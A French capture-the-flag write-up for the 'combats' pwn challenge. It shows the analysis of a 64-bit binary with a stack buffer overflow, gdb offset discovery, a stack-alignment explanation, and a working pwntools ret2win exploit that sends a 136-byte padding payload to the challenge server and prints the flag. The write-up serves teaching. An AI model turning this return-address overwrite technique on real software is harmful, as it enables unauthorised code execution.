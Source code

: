 # WriteUp

## Analyse de l'ELF

```bash
$ checksec combats
[*] '/tmp/combats'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

En décompilant via Ghidra, nous voyons 2 fonctions intéressantes, vulnerable et guerrier :

![Liste des fonctions](combats1.png)

La fonction main() ne semble pas appeler guerrier() :

![Décompilation de main()](combats2.png)

La fonction guerrier() est intéressante puisqu'elle nous permet d'exécuter un "cat flag.txt" :

![Décompilation de guerrier()](combats3.png)

La fonction vulnerable() déclare une variable de 128 octets mais semble en stocker  bien plus...

![Décompilation de vulnerable()](combats4.png)

Regardons cela dans gdb en insérant une large entrée :

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/combats
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude.
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x100
RBX: 0x0
RCX: 0x7ffff7ea07e2 (<__GI___libc_read+18>:     cmp    rax,0xfffffffffffff000)
RDX: 0x100
RSI: 0x7fffffffdbf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
RIP: 0x401240 (<vulnerable+67>: ret)
R8 : 0xb8
R9 : 0x7ffff7fc9040 (<_dl_fini>:        endbr64)
R10: 0x7ffff7d925e8 --> 0xf001200001a64
R11: 0x246
R12: 0x7fffffffdda8 --> 0x7fffffffe02d ("/tmp/combats")
R13: 0x401241 (<main>:  push   rbp)
R14: 0x403df0 --> 0x401150 (endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401239 <vulnerable+60>:    call   0x401070 <read@plt>
   0x40123e <vulnerable+65>:    nop
   0x40123f <vulnerable+66>:    leave
=> 0x401240 <vulnerable+67>:    ret
   0x401241 <main>:     push   rbp
   0x401242 <main+1>:   mov    rbp,rsp
   0x401245 <main+4>:   sub    rsp,0x10
   0x401249 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0008| 0x7fffffffdc80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0016| 0x7fffffffdc88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0024| 0x7fffffffdc90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0032| 0x7fffffffdc98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0040| 0x7fffffffdca0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0048| 0x7fffffffdca8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0056| 0x7fffffffdcb0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401240 in vulnerable ()
```

Nous voyons que nous parvenons à écrire sur $rsp à l'offset 136, cela signifie que nous contrôlons l'adresse de la fonction suivant l'exécution de la fonction vulnerable() (après son ret). Voyons à quel offset :

```bash
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 128
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 136 - size ~194
[...]
```

Nous devons aussi vérifier si la stack est bien alignée, en effet, si la valeur de $rsp n'est pas divisible par 0x10 (16 en hexadécimal), la suite de l'exécution ne se passera pas comme nous le souhaiterions en fonction de l'adresse de la fonction qui se retrouvera au sommet de la pile.

<details>
  **<summary>Pourquoi aligner la stack ?</summary>**

Lorsque nous exploitons une vulnérabilité de buffer overflow pour rediriger l'exécution vers une fonction spécifique comme ```guerrier()```, il est crucial de prendre en compte l'alignement de la pile (stack) pour assurer le bon fonctionnement du programme.

Dans l'architecture x86_64, la convention d'appel (ABI - Application Binary Interface) stipule que le pointeur de pile (```$rsp```) doit être aligné sur 16 octets avant l'appel d'une fonction. Cet alignement est nécessaire car de nombreuses instructions SSE et certaines fonctions de la bibliothèque standard C supposent que la pile est correctement alignée. Si cet alignement n'est pas respecté, cela peut entraîner des comportements indéfinis, des plantages ou des erreurs d'exécution.

Dans notre cas, en écrasant $rsp avec l'adresse de la fonction ```guerrier()```, nous redirigeons effectivement le flux d'exécution vers cette fonction. Cependant, le buffer overflow et l'écrasement du pointeur de pile peuvent désaligner la pile. Cela signifie que lorsque ```guerrier()``` est appelée, la pile n'est plus alignée sur 16 octets comme l'exige l'ABI.

Lorsque ```guerrier()``` exécute ```puts("Félicitations, jeune guerrier, votre bravoure mérite les honneurs...")```, cette fonction de la bibliothèque standard s'attend à ce que la pile soit correctement alignée. Si ce n'est pas le cas, elle peut fonctionner partiellement (afficher "Félicitations, jeune guerrier, votre bravoure mérite les honneurs...") mais rencontrer des problèmes lors d'appels internes ou de l'exécution d'instructions SSE, ce qui peut entraîner un arrêt du programme ou sa sortie prématurée après le ```puts()```.

Pour résoudre ce problème d'alignement, il est nécessaire de :

* Ajuster l'alignement de la pile : Modifier notre payload pour ajouter du remplissage (padding) afin de réaligner ```$rsp``` sur un multiple de 16 octets avant l'appel à ```guerrier()```. Cela garantit que toutes les fonctions appelées au sein de ```guerrier()``` trouvent la pile dans l'état attendu.
* Utiliser une autre méthode d'exploitation : Injecter directement l'adresse des instructions qui préparent les arguments pour ```system()``` et effectuer l'appel peut contourner le problème d'alignement, car nous contrôlons précisément l'état de la pile et pouvons nous assurer qu'elle est correctement alignée.

En résumé, le souci d'alignement de la pile provient du fait que les conventions d'appel en x86_64 exigent un alignement spécifique pour garantir le bon fonctionnement des fonctions. Ne pas respecter cet alignement lors de l'exploitation d'un buffer overflow peut conduire à des comportements imprévus ou à des plantages, ce qui nécessite des ajustements spécifiques dans notre méthode d'exploitation pour assurer la réussite de l'attaque.

</details>


```bash
gdb-peda$ p/x $rsp
$1 = 0x7fffffffdc78
```

0x7fffffffdc78 % 0x10 = 0x8, nous devrons donc aligner la stack avant d'appeler l'adresse d'une fonction, au hasard guerrier() 😅. Pour cela, il suffit d'exécuter une instruction ret avant de spécifier l'adresse de guerrier() dans le payload.

## Récupération d'un gadget ret

La pile étant non exécutable (NX) et l'ASLR étant sûrement activée, nous devons trouver un gadget ret dans la section statique du programme.

```bash
❯ ROPgadget --binary combats | grep ret
[...]
0x000000000040101a : ret
[...]
```

## Récupération de l'adresse de la fonction "guerrier"

```bash
❯ readelf -s combats | grep guerrier
    30: 00000000004011d8    37 FUNC    GLOBAL DEFAULT   14 guerrier
```

Il suffit donc de remplir le buffer avec 136 octets de n'importe quoi, puis l'adresse vers ret (0x40101a) pour aligner la pile puis l'adresse vers guerrier() (0x4011d8) pour qu'elle soit appelée.

## Exploit

```python
#!/usr/bin/env python3

import sys
from pwn import *

context(arch="amd64", os="linux", endian="little", word_size=64)

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```
```bash
$ python pwn-combats.py
[+] Opening connection to challenges.hackagou.nc on port 5003: Done
[*] Switching to interactive mode
Félicitations, jeune guerrier, votre bravoure mérite les honneurs...
OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}
[*] Got EOF while reading in interactive
```
